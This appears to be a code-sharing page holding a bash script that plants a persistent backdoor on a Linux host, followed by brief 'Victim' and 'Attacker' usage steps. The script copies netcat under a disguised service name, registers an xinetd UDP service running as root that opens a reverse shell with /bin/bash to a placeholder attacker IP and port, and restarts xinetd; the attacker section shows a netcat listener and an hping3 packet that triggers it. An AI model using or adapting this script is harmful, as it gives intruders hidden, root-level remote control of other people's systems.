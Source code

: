 ## Script 
https://gist.github.com/anonymous/3cb8e474b6bb3fd3787bda1e1a55cf56

	#!/bin/bash
	
	cp /bin/nc /bin/services-udp
	echo "service services-udp" >/etc/xinetd.d/services-udp
	echo "{" >> /etc/xinetd.d/services-udp
	echo "		server = /bin/services-udp" >> /etc/xinetd.d/services-udp
	echo "		server_args = <attacker_IP> <attacker_PORT> -e /bin/bash" >> /etc/xinetd.d/services-udp
	echo "		protocol = udp" >> /etc/xinetd.d/services-udp
	echo "		user = root" >> /etc/xinetd.d/services-udp
	echo "		socket_type = dgram" >> /etc/xinetd.d/services-udp
	echo "		wait = yes" >> /etc/xinetd.d/services-udp
	echo "		flags = IPv4" >> /etc/xinetd.d/services-udp
	echo "}" >> /etc/xinetd.d/services-udp
	
	echo "services-udp	65534/udp       # services-udp" >> /etc/services
	
	/etc/init.d/xinetd stop
	/etc/init.d/xinetd start

## Victim
	Run script
## Attacker
	nc -lvp 4444
	hping3 -2 -c 1 [victim ip] [port]